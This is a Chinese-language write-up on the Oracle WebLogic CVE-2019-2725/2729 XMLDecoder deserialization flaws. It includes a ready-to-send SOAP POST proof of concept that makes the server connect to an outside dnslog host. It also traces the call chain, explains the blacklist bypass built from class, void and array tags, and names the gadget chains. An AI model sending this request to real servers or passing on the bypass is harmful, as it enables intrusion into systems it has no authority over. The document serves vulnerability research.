



- [CVE-2019-2725 & 2729 反序列化](#cve-2019-2725--2729-反序列化)
  - [POC](#poc)
  - [原理](#原理)
    - [调用链](#调用链)
    - [Bypass CVE-2017-12071](#bypass-cve-2017-12071)
      - [payload构造](#payload构造)
- [BypassCVE-2019-2725->2729](#bypasscve-2019-2725-2729)
  - [参考:](#参考)
# CVE-2019-2725 & 2729 反序列化
影响版本
```
Oracle WebLogic Server 10.*
Oracle WebLogic Server 12.1.3
```
影响组件
```
bea_wls9_async_response.war
wsat.war 
```
## POC
```
POST /_async/AsyncResponseService HTTP/1.1
Host: 127.0.0.1:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 748
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java>
    <class>
        <string>java.net.Socket</string>
        <void>
            <string>d2r0h9.dnslog.cn</string>
            <int>80</int>
        </void>
    </class>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
## 原理
主要在于bea_wls9_async_response.war和wsat.war组件中处理soap消息时使用了XMLDecoder进行解析xml数据,触发了XMLDecoder反序列化漏洞,而这次也则绕过了CVE-2017-12071的补丁. 
### 调用链
>Tips:调试时不知道从哪打断点时直接在最后的ProcessBuilder类打断点,则可得到调用链,再反向寻找相关组件的触发流程.

调用链如下,从`Soapprocessor.process`开始处理soap数据,最后从`WorkContextXmlInputAdapter.readUTF`中进入`XMLDecoder.readObject`触发XMLDecoder反序列化.


在`process`中根据请求类型为post,调用`handlePost`,在`handlePost`中主要为解析和封装soap消息,最后调用var7即WsSkel类的invoke方法.

在`WsSkel.invoke`中实例化了一个ServerDispatcher对象,并设置了其Wsport和Connection属性,分别为请求的服务url和http,然后调用`ServerDispatcher.dispatch`.

在`ServerDispatcher.dispatch`中调用` this.getHandlerChain().handleRequest(this.getContext(), var6);`,而getHandlerChain()即为`HandlerIterator`,即继续调用`HandlerIterator.handleRequest`.

在`handleRequest`中var4赋为了`WorkAreaServerHandler`.

然后调用了`WorkAreaServerHandler.handleRequest`,其中var3为通过`WlMessageContext var3 = WlMessageContext.narrow(var1)`获得的MessageContext对象.

在`WorkAreaServerHandler.handleRequest`中,获取到soap的headers,然后实例化了一个`WorkContextMapInterceptor`对象,将获取到的WorkAreaHeader(var4)传入`new WorkContextXmlInputAdapter`中,再将该`WorkContextXmlInputAdapter`传入`receiveRequest`中.

然后经过`WorkContextLocalMap.receiveRequest`调用`WorkContextEntryImpl.readEntry`,最后在`readEntry`中调用`WorkContextXmlInputAdapter.readUTF`.

而在`readUTF`中则直接返回调用xmlDecoder.readObect()触发XMLDecoder反序列化.

### Bypass CVE-2017-12071
该漏洞与weblogic之前的CVE-2017-3506&CVE-2017-12071原理类似,只不过入口点不一样,最后都是触发XMLDecoder反序列化漏洞,而该漏洞主要在于绕过了之前CVE-2017-12071补丁中的黑名单.
因为在之前的补丁中无法调用对象的对应方法,所以在该漏洞中的利用思路为在对象的构造函数中触发rce,在寻找利用链的过程中发现UnitOfWorkChangeSet类构造方法中直接调用了JDK原生类中的readObject()方法，并且其构造方法的接收参数恰好是字节数组，这就满足了上一个补丁中array标签的class属性值必须为byte的要求，再借助带index属性的void元素，完成向字节数组中赋值恶意序列化对象的过程，最终利用JDK 7u21反序列化漏洞链造成了远程代码执行。

#### payload构造
在官方文档中可以看到class标签也可以指定实例化任意类,从而绕过了`object、new、method`关键字黑名单来实例化对象.

因为`void`标签受限的原因,无法调用对象的相应方法,则从对象实例化过程中的构造函数下手,通过对象自动执行的构造函数来触发RCE,同时因为array标签的限制,构造函数的参数只能为bytes类型.思路则为利用class标签来实例化类,再利用void标签传入bytes类型的参数进行利用.

**利用链:**  
Weblogic自带的1.6:jdk7u21 gadget  
12.1.3: org.slf4j.ext.EventData  
...  
...  
... 
# BypassCVE-2019-2725->2729
在2019-2725的补丁中继续把class加入了黑名单,而在2729中则是使用`<array method=”forName”>`来代替class标签,因为在weblogic自带的jdk1.6来说,这两个标签是相同效果的可以进行替换.而在2729的补丁中则使用了白名单,且对白名单的标签进行了属性的类型限制.

## 参考:  

https://www.freebuf.com/articles/web/202203.html  
https://paper.seebug.org/909/